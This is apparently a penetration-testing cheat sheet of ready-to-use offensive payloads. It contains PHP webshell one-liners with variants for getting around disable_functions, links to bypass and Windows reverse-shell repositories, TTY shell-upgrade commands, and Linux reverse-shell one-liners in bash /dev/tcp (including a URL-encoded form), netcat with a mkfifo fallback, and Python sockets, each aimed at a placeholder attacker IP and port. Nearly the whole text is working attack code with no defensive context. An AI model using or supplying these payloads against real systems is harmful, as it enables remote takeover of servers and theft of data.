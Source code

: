 -----

### WebShell

* **PHP**
  - `<?php system("{command}"); ?>`
  - Bypass Disable Function
    - `shell_exec("{command}");`
    - `passthru("{command}")`
    - `exec("{command}");`
    - [shell.php](https://github.com/l3m0n/Bypass_Disable_functions_Shell/blob/master/shell.php)
    - [windows webshell](https://github.com/Dhayalanb/windows-php-reverse-shell)
  - Check Disable Function
    - `<?php phpinfo(); ?>`
    - `<?php var_dump(ini_get('disable_functions')); ?>`

-----

### Shell Upgrade

Python
```
python3 -c "import pty;pty.spawn('/bin/bash')" 
```
Perl
```
perl -e 'exec "/bin/bash";'
```

-----

### Reverse Shell - Linux

#### **Bash**
```
bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261%27
```

#### **nc**

With -e
```
nc -e /bin/bash {IP} {PORT}
```

Without -e
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc {IP} {PORT} >/tmp/f
```

#### **Python**

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' &
```
